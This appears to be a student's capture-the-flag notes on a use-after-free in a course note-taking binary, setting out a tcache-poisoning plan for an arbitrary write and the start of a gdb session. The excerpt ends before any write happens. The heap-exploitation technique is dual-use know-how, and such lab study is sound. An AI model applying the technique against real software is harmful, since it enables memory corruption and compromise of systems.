 So we're gonna try to achieve an arbitrary write through the following
1) Allocate three chunks of the same size
2) Free note 1
3) Free note 0
	We'll have:
		`tcache -> Note[0] -> Note[1]`
4) Edit our recently free'd note 0
	Now it will "point" to whatever data we put in
		`tcache -> Note[0] -> 0xDEADBEEF
		This does break the link to `Note[1]` but we do not care
5) Re allocate that space by calling `addnote` and making one of the same size
   Now tcache will point to that value
	   `tcache -> 0xDEADBEEF`
6) Make one more note (of that same size)
	The "pointer" that `malloc` returns will be `0xDEADBEEF`
7) Call edit, using that pointer
	* I may need to do some math to make sure that
		`ptr_array + u * 8 == 0xDEADBEEF`
	And that will overwrite the value at `0xdeadbeef`

# Arbitrary Write Manual Attempt
#### Setup:
```
jnu@Offsec-Ubuntu-20:~/Desktop/7-Week/uaf$ gdb challenge/chal
gef➤  break menu
Breakpoint 1 at 0x1249
gef➤  ignore 1 3
Will ignore next 3 crossings of breakpoint 1.
gef➤  r
Starting program: /home/jnu/Desktop/7-Week/uaf/challenge/chal 
```
## 1) Make Three Notes:
```
=========== NYU OFFSEC ============
1.	Add a note
2.	Delete a note
3.	Edit a note
4.	Read a note
5.	Exit
=========== NYU OFFSEC ============
>1
Size:
24
=========== NYU OFFSEC ============
1.	Add a note
2.	Delete a note
3.	Edit a note
4.	Read a note
5.	Exit
=========== NYU OFFSEC ============
>1
Size:
24
=========== NYU OFFSEC ============
1.	Add a note
2.	Delete a note
3.	Edit a note
4.	Read a note
5.	Exit
=========== NYU OFFSEC ============
>1
```